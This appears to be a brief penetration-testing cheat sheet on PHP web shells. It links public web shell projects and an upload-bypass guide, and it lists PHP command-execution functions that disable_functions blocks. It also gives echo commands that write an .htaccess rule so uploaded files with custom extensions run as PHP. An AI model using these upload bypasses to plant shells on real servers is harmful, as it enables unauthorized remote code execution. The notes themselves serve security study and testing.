 ### :open_file_folder: Simple-PHP-Web-Shell

```
https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php
```

### :open_file_folder: PHP HTTP Server

```shell
php -S <host ip>:<port>
```

### :open_file_folder: phpinfo

`disable_functions` = disabled commands

```
system
exec
shell_exec
passthru
popen
proc_open
pcntl_exec
```

### :open_file_folder: upload-bypasses

```
https://github.com/six2dez/pentest-book/blob/master/enumeration/web/upload-bypasses.md
```

We can attempt to upload the `.htaccess` file to configure the server to execute our custom file extensions as PHP scripts.

```shell
# The uploaded file may not be visible in the upload directory.
echo "AddType application/x-httpd-php <custom file extension>" > .htaccess
# example
echo "AddType application/x-httpd-php .abc" > .htaccess
```

### :open_file_folder: Single-file PHP shell

Combine bypass, such as phar

```
https://github.com/flozz/p0wny-shell/tree/master
```
